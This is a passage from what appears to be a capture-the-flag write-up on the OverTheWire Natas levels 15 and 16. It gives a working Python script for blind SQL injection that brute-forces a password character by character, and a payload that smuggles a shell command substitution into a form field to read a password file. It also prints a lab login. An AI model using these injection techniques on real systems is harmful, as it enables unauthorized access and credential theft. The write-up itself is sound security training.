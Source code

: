 This level is slightly different. The only information we get from submitting the form can be boiled down to whether or not the sql query executed successfully. The source code does give us the schema of the users table, and we can use this to our advantage. Even though we can't get the snippet to show us the password, we can try each character in turn and validate our guess. It's clearly tedious to do that manually, but a little bit of python3 takes good care of the automation:

{% highlight python %}
    import urllib.parse
    import urllib.request
    
    url = 'http://natas15.natas.labs.overthewire.org/index.php'
    
    # auth bit - pretty boiler plate
    top_level_url = 'http://natas15.natas.labs.overthewire.org'
    username = 'natas15'
    password = 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'
    password_mgr = urllib.request.HTTPPasswordMgrWithDefaultRealm()
    password_mgr.add_password(None, top_level_url, username, password)
    handler = urllib.request.HTTPBasicAuthHandler(password_mgr)
    opener = urllib.request.build_opener(handler)
    urllib.request.install_opener(opener)
    
    def tryit(pw):
      post_data = {'username' : 'natas16" and password like binary "%s%%' % pw}
      data = urllib.parse.urlencode(post_data)
      binary_data = data.encode('ascii')
      req = urllib.request.Request(url, binary_data)
      response = urllib.request.urlopen(req)
      the_page = response.read()
      return 'This user exists' in str(the_page)
    
    chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789' # string.ascii_letters + string.digits
    
    password = ''
    while len(password) < 32:
      for c in chars:
        if tryit(password + c):
          password = password + c
          print('password starts with %s' % password)
          break
    
    print('full password: %s' % password)
{% endhighlight %}

Note that `mysql` doesn't exactly have a `startswith` function, so we use `like binary "[guess]%"'.

## Level 16 ##

{% highlight python %}
    def tryit(pw):
      print('trying %s' % pw)
      post_data = {'needle' : '^$(grep ^%s /etc/natas_webpass/natas17)African' % pw}
      data = urllib.parse.urlencode(post_data)
      binary_data = data.encode('ascii')
      req = urllib.request.Request(url, binary_data)
      response = urllib.request.urlopen(req)
      the_page = response.read()
      return r'<pre>\n</pre>' in str(the_page)
{% endhighlight %}
